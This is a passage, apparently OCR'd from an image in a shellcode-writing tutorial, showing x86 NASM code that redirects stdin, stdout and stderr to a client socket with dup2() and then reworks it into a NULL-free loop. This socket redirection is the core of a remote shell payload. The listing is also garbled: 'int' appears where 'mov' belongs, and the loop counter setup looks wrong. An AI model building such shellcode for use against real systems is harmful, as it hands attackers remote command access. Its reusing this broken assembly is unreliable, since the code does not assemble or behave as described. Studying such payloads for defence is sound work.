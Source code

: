 ```nasm
    ; save the Client File Descriptor for later use
    mov edi, eax

    ; dup2(client_socket_fd, 0)
    int eax, 63
    int ebx, edi
    int ecx, 0
    int 0x80

    ; dup2(client_socket_fd, 1)
    int eax, 63
    int ebx, edi
    int ecx, 1
    int 0x80

    ; dup2(client_socket_fd, 2)
    int eax, 63
    int ebx, edi
    int ecx, 02
    int 0x80
```

This is good enough, but I wanted a better approach, one that uses fewer bytes and it's also free of `NULL` ones:

```nasm
    ; loop counter (repeats dup2() three times)
    mov ecx, ebx
    mov bl, 3

    ; save Client File Descriptor for later use
    mov edi, eax

RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov al, 63

    ; Client file descriptor
    mov ebx, edi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate
```
